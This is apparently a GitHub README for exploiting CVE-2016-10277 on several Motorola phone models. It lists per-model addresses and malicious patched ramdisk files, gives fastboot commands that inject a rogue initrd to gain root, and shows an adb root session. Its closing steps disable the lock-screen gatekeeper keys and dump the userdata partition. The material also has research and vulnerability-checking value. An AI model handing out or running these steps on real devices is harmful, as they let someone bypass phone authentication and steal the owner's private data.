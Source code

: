 # Exploiting CVE-2016-10277
More information at: https://alephsecurity.com/2017/06/07/initroot-moto/

If you just want to check if your device is vulnerable, 
it might be quicker if you just flash stock ramdisk (without any modifications). 
If it's your case, just look for ``initroot-*-STOCK*.cpio.gz``.

## Motorola XT-1033
- Scratch Address: 0x11000000
- Padding: 64MB
- Stockrom padded ramdisk: initroot-xt1033-p64-STOCK.cpio.gz
- Stockrom patched and padded ramdisk: initroot-xt1033-p64-MALICIOUS.cpio.gz

## Motorola XT-1040
- Scratch Address: 0x11000000
- Padding: 64MB
- Stockrom padded ramdisk: initroot-xt1040-p64-STOCK.cpio.gz
- Stockrom patched and padded ramdisk: initroot-xt1040-p64-MALICIOUS.cpio.gz

## Motorola XT-1068
- Scratch Address: 0x11000000
- Padding: 64MB
- Stockrom padded ramdisk: initroot-xt1068-p64-STOCK.cpio.gz
- Stockrom patched and padded ramdisk: initroot-xt1068-p64-MALICIOUS.cpio.gz

## Motorola XT-1069
- Scratch Address: 0x11000000
- Padding: 64MB
- Stockrom padded ramdisk: initroot-xt1069-p64-STOCK.cpio.gz
- Stockrom patched and padded ramdisk: initroot-xt1069-p64-MALICIOUS.cpio.gz

## Motorola XT-1078
- Scratch Address: 0x11000000
- Padding: 64MB
- Stockrom padded ramdisk: initroot-xt1078-p64-STOCK.cpio.gz
- Stockrom patched and padded ramdisk: initroot-xt1078-p64-MALICIOUS.cpio.gz


## Running and cheking root access: 
  - Flashing and solving bootloops: 
  
        git clone https://github.com/leosol/initroot.git
        cd xt1040 (or any other folder)
        use ./run-malicious.sh, run-stockramfs.sh and solve-bootloop.sh (if you have any bootloop)
        Or use the following commands:
		fastboot flash aleph $FILE_NAME
		fastboot oem config fsg-id "a initrd=SCRATCH+PAD,LENGTH"
		fastboot continue
		#use the following to solve bootloops
		fastboot oem config fsg-id ""

  - Checking root privileges:   
  
        root@debian-vaio:~/motoramfs/xt1040# adb devices
        List of devices attached
        * daemon not running. starting it now on port 5037 *
        * daemon started successfully *
        T0092020C5	device

        root@debian-vaio:~/motoramfs/xt1040# adb shell
        root@peregrine:/ # getenforce
        >Permissive

  - What can I do with root?   

        #remove authentication as pointed out by @kraftdenker (tested on xt1068)
        mv /data/system/gatekeeper.password.key /data/system/_gatekeeper.password.key
        mv /data/system/gatekeeper.pattern.key /data/system/_gatekeeper.pattern.key

        #dump your data
        adb pull /dev/block/platform/msm_sdcc.1/by-name/userdata

        #or make it permanent


